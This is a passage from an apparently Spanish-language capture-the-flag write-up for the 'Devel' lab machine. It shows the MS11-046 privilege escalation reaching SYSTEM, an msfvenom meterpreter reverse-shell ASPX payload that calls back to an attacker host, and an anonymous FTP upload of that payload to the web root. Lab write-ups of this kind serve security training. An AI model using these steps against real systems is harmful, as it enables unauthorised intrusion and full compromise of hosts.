 * Lo activamos:
```batch
C:\Windows\Temp\AquiNoHayNingunExploit>.\MS11-046.exe
.\MS11-046.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

Buscamos las flags y listo, con esto ya tenemos las flags de la máquina.

<h2 id="Exploit2">Ganando Acceso y Escalando Privilegios con Metasploit</h2>

Para este caso, vamos a ocupar la misma **Reverse Shell** que ya creamos, pero vamos a modificarla un poco porque vamos utilizar el **Metasploit Framework** para obtener una sesión de **meterpreter** y luego ahí, vamos a escalar privilegios.

* Crea la **Reverse Shell** para usar en **meterpreter**:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Tu_IP LPORT=4242 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2843 bytes
Saved as: shell.aspx
```

* Carga la **Reverse Shell** en el **servicio FTP**:
```batch
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:berserkwings): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
100% |**********************************************************************************************************************************************************************************************|  2883       52.87 MiB/s    --:-- ETA
226 Transfer complete.
2883 bytes sent in 00:00 (40.69 KiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-31-24  08:02AM                 2883 shell.aspx
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> exit
221 Goodbye.
```

